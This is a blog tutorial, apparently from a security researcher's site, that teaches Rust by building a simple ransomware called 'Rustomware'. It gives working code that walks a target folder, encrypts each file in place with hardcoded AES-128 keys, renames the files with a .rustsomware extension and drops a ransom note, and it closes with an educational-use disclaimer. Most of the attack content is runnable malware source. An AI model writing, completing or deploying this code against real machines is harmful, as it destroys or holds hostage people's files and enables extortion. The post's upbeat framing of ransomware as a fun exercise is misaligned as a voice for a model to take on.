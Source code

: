 ```yaml
---
layout: post
title: Rust 101 - Let's write a Rustomware
subtitle: Writing a ransomware in rust
gh-repo: idov31/rustomware
gh-badge: [star, fork, follow]
tags: [rust, windows, linux, malware-dev]
---
```


## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in rust. Later on, I made few contributions to the amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and writting nowadays a unique C2 framework written (mostly) in rust. If you are familiar with Rust, you can skip to Part 2 below. The whole code for this blog post is avaliable in my [Github](https://github.com/idov31/rustsomware) :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use aes128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:
<img src="../assets/img/rust101-rustsomware/encrypted_files.png" />

## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github](https://github.com/idov31), for any question feel free to ask me on [Twitter](https://twitter.com/idov31).

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.
